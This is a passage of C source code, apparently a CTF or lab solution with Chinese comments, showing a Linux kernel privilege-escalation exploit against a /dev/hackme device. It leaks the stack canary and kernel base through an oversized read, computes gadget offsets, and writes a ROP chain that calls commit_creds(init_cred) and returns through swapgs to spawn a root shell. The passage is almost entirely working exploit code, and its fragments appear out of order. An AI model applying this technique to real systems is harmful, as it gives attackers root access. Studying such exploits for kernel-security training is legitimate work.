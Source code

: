 ```c
    buffer[ret_index++] = pop_rsi_rdi_rbx;
    buffer[ret_index++] = 0;
    buffer[ret_index++] = init_cred;
    buffer[ret_index++] = 0;
    buffer[ret_index++] = commit_creds;
    buffer[ret_index++] = swapgs;
    buffer[ret_index++] = 0;
    buffer[ret_index++] = 0;
    buffer[ret_index++] = (size_t)get_root_shell;
    buffer[ret_index++] = user_cs;
    buffer[ret_index++] = user_rflags;
    buffer[ret_index++] = user_sp;
    buffer[ret_index++] = user_ss;

    write(dev_fd, buffer, 0x180);
}

int main()
{
    bind_core(0);
    save_status();

    info("Starting to exploit...");
    buffer = (size_t *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (buffer < 0)
    {
        err_exit("mmap");
    }

    dev_fd = open("/dev/hackme", O_RDWR);
    if (dev_fd < 0)
    {
        err_exit("Failed to open hackme.");
    }
	
    // 从内核读取过多数据到栈上，泄露canary和kernel_base
    read(dev_fd, buffer, 0x180);
    // leak_content(buffer, 0x180 / 8);

    int kernel_index = 38;
    canary = buffer[2];

    kernel_offset = buffer[kernel_index] - 0xffffffff8100a157;
    kernel_base += kernel_offset;

    leak_info("kernel_offset", kernel_offset);
    leak_info("kernel_base", kernel_base);
    leak_info("canary", canary);
	
    // 计算出gadget和部分可用函数的地址
    mov_rax_rax_pop_rbp += kernel_offset;
    pop_rsi_rdi_rbx += kernel_offset;
    pop_rdx += kernel_offset;
    swapgs += kernel_offset + 0x16;
    __memcpy += kernel_offset;
    init_cred += kernel_offset;
    pop_rax += kernel_offset;
    ksymtab_commit_creds += kernel_offset;

    int canary_index = 0x10;
    int ret_index = 0x14;
	
```